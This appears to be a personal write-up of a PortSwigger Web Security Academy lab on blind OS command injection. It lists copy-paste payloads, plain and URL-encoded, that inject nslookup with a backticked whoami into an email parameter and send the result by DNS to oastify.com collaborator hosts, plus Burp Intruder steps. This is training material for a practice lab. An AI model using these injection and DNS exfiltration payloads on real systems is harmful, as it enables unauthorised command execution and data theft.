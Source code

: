 # [Lab Blind OS command injection with out-of-band data exfiltration](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band-data-exfiltration)

<br>

## Impression:
This one was much more challenging, the difficult part was in determining the
correct meta characters to use, and in making a successful connection to the
collaborator server.

<br>

## High-level overview:
I took the steps below because the original way I solved it in the past,
as well as what is listed in the solution was not working.
If you experience the same, then this should do it.

<br>

## Steps to take:
**1st, check the collaborator health:**

**Go to Settings, look under Project, then select:** 

**Collaborator -> Run health check.**

**If you receive errors regarding a failure to connect/cetification verify, etc..**

Then check the box:

**_Poll over unencrypted HTTP_**

Run the health check again, all connection errors should now be resolved
and the collaborator should be able to accept connections from the lab

<br>

## 2nd, Sort out the correct syntax and metacharacters and URL encode every payload
This shouldn't of been an issue, but it was.

**I Created every Permutation of the command that should return the desired result:**
<br>
There is a list of all permutations below for your convienience to copy-paste.

If you encounter this issue, try this work around
the command to augment: 
```
||nslookup+`whoami`.yourcollabaddy.oastify.com||
```
<br>

**For example, use the `||`, then in the next payload, substutute the `||` with `;` and so on.**

<br>

## I then copy-pasted each one individually into the Decoder, where I URL encoded each payload, then copy-pasted this list of URL-ecoded commands, into the intruder payload list.

<br>

## Selected the email parameter as the insertion point, and left it empty
`email=§§`

Then only ran the attack, and a few moments later, received multiple
DNS queries to the collaborator, one of which was the whoami command
`peter-ZxIdda ved5g7f2zi3z3k7zv8x31928hznqbiz7 oastify com`

then just copy-paste `peter-ZxIdda` into the submit solution
and that's it, solved.

<br>

## List of cmd injection payloads I created and URL encoded for the intruder
You can use this too, just be sure to substutue the collab address here
`tjzmt1v0qk6ono8sngwirmxnw2n8ew8kx.oastify.com`
for yours

```
||nslookup+`whoami`.tjzmt1v0qk6ono8sngwirmxnw2n8ew8kx.oastify.com||
;nslookup+`whoami`.jzmt1v0qk6ono8sngwirmxnw2n8ew8kx.oastify.com;
&&nslookup+`whoami`.jzmt1v0qk6ono8sngwirmxnw2n8ew8kx.oastify.com&&
|nslookup+`whoami`.jzmt1v0qk6ono8sngwirmxnw2n8ew8kx.oastify.com|
;nslookup;+whoami;.tzw31500kgoxoisxg6i1m7n62x8owhk6.oastify.com;
;nslookup;+whoami;.jzmt1v0qk6ono8sngwirmxnw2n8ew8kx.oastify.com;
&nslookup;+whoami;.tzw31500kgoxoisxg6i1m7n62x8owhk6.oastify.com&
```

**- I believe this is the one that solved it:**
```
;nslookup;+whoami;.jzmt1v0qk6ono8sngwirmxnw2n8ew8kx.oastify.com;

```
- Notice the semicolin `;` appended to the end of the `nslookup` command
and the use of a plus sign and not a %20 to indicate a space
then the use of the semicolin again appended to th end of the `whoami` command

I have found this syntax and use of the semicolin `;` to be the most
effective/consistant way to successfully carry out command injection
exploits.
I originally discovered this when chaining Linux commands when creating aliases
in my .bashrc and .zshrc dot files



**And after URL encoding each one, your list should look like this:**
```
%7c%7c%6e%73%6c%6f%6f%6b%75%70%2b%60%77%68%6f%61%6d%69%60%2e%74%6a%7a%6d%74%31%76%30%71%6b%36%6f%6e%6f%38%73%6e%67%77%69%72%6d%78%6e%77%32%6e%38%65%77%38%6b%78%2e%6f%61%73%74%69%66%79%2e%63%6f%6d%7c%7c%0a%0a%0a%0a%0a%0a
%7c%7c%6e%73%6c%6f%6f%6b%75%70%2b%60%77%68%6f%61%6d%69%60%2e%6a%7a%6d%74%31%76%30%71%6b%36%6f%6e%6f%38%73%6e%67%77%69%72%6d%78%6e%77%32%6e%38%65%77%38%6b%78%2e%6f%61%73%74%69%66%79%2e%63%6f%6d%7c%7c%0a%0a%0a%0a%0a%0a%0a
%3b%6e%73%6c%6f%6f%6b%75%70%2b%60%77%68%6f%61%6d%69%60%2e%6a%7a%6d%74%31%76%30%71%6b%36%6f%6e%6f%38%73%6e%67%77%69%72%6d%78%6e%77%32%6e%38%65%77%38%6b%78%2e%6f%61%73%74%69%66%79%2e%63%6f%6d%3b%0a%0a%0a%0a%0a%0a%0a
%26%26%6e%73%6c%6f%6f%6b%75%70%2b%60%77%68%6f%61%6d%69%60%2e%6a%7a%6d%74%31%76%30%71%6b%36%6f%6e%6f%38%73%6e%67%77%69%72%6d%78%6e%77%32%6e%38%65%77%38%6b%78%2e%6f%61%73%74%69%66%79%2e%63%6f%6d%0a%0a%0a%0a%0a%0a%0a%0a%0a
%7c%6e%73%6c%6f%6f%6b%75%70%2b%60%77%68%6f%61%6d%69%60%2e%6a%7a%6d%74%31%76%30%71%6b%36%6f%6e%6f%38%73%6e%67%77%69%72%6d%78%6e%77%32%6e%38%65%77%38%6b%78%2e%6f%61%73%74%69%66%79%2e%63%6f%6d%7c%0a%0a%0a%0a%0a%0a%0a%0a%0a%0a
%3b%6e%73%6c%6f%6f%6b%75%70%3b%2b%77%68%6f%61%6d%69%3b%2e%6a%7a%6d%74%31%76%30%71%6b%36%6f%6e%6f%38%73%6e%67%77%69%72%6d%78%6e%77%32%6e%38%65%77%38%6b%78%2e%6f%61%73%74%69%66%79%2e%63%6f%6d%3b%0a%0a%0a%0a%0a%0a%0a%0a%0a%0a%0a
%3b%6e%73%6c%6f%6f%6b%75%70%3b%2b%77%68%6f%61%6d%69%3b%2e%74%7a%77%33%31%35%30%30%6b%67%6f%78%6f%69%73%78%67%36%69%31%6d%37%6e%36%32%78%38%6f%77%68%6b%36%2e%6f%61%73%74%69%66%79%2e%63%6f%6d%3b%0a%0a%0a%0a%0a%0a%0a%0a%0a%0a%0a%0a
```

## Again, be sure to substutue the collab address in this example with your collab address.

## Steps to solve the lab:

**1. Paste your list of URL encoded permutated whoami with out of bounds commnds in to the Intruder payload list**

<br>

**2. Select the Attack type: Sniper**

<br>

**3. Select the email parameter for the payload position & leave it's value blank `email=§§`** 
<br>
  (this is because each payload will be injected here)
 
  <br>
  
**4. Then run the Attack**

<br>

## The End

<br>

